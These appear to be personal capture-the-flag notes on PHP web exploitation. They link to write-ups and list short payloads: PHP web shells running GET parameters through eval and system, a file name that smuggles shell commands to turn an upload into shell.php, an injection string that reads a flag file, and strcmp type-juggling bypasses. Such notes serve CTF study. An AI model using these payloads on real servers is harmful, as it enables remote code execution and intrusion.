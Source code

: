 # +

- https://github.com/ctfs/write-ups-2015/tree/master/codegate-ctf-2015/web/owlur
- https://www.arneswinnen.net/2013/11/hack-lu-2013-ctf-wannabe-writeup-part-one-web-exploitation/
- http://php.net/manual/en/wrappers.php

```html
<script language=PHP>eval($_GET['q']);</script>
<?php print_r(scandir('/')) ?>
```

```html
<?php echo system($_GET['s']); ?>
```
    > uploaded as shell.png, then uploaded another file: ´cd uploads;cd 6a9btoq20khkn8ln5lfhuo6v62;cp 65-shell.png shell.php´.png

```
flag','..')+or+system('cat+templates/flag.php');//
```

# type juggling, weak comparison, magic hashes

```php
<?php
strcmp($_GET['user'], "admin") == 0
// => "admin1"

strcasecmp($_GET['secret'], "0x1337") == 0
// => ["1"]
```

# deserialization

- [GitHub \- galdeleon/35c3\_php: Solution for 35c3 php challenge](https://github.com/galdeleon/35c3_php)
    - ~/code/snippets/ctf/web/35c3_php/

# jail

[GitHub \- splitline/PHPFuck: PHPFuck: \(\(\+\.^\)\) / Using only 7 different characters to write and execute php\.](https://github.com/splitline/PHPFuck)
https://github.com/terjanq/Flag-Capture/blob/master/MeePwn%202018/omega/README.md#part2
https://gist.github.com/terjanq/aa39a5a40b8d9b8a8e2a54e747715a2c
    https://twitter.com/terjanq/status/1257276298550001664
